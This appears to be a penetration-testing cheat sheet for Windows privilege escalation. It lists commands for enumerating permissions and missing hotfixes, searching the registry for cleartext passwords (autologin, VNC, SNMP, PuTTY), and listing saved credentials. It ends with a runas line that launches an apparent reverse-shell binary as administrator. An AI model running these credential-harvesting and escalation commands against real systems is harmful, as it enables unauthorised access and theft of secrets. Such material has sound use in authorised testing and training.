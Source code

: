 ```
netsh advfirewall firewall show rule name=all
netsh advfirewall show currentprofile

# Set path
set PATH=%PATH%;C:\xampp\php

whoami /priv

dir/a -> Show hidden & unhidden files
dir /Q -> Show permissions
dir [filename] /s /p (s – for all directories and p – pause results)

# Insecure Folder Permission
C:\>cacls C:\bd

# Insecure File/Service Permission
C:\>cacls C:\bd\bd.exe

#Service Query
C:\>sc qc bd
```

### Kernel exploits


```
# Look for hotfixes
systeminfo # Copy to txt file and run wes.py

sudo python wes.py sysinfo.txt -i "Elevation of Privilege"

wmic qfe list # Install date of hotfixes

wmic qfe get Caption,Description,HotFixID,InstalledOn

# Search for exploits
site:exploit-db.com windows XX XX
```

### Cleartext passwords

```
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

#Runas CMD
cmdkey /list

runas /savecred /user:admin
runas /user:DVR4\administrator "C:\Windows\System32\cmd.exe /c C:\Users\viewer\rev.exe"
```
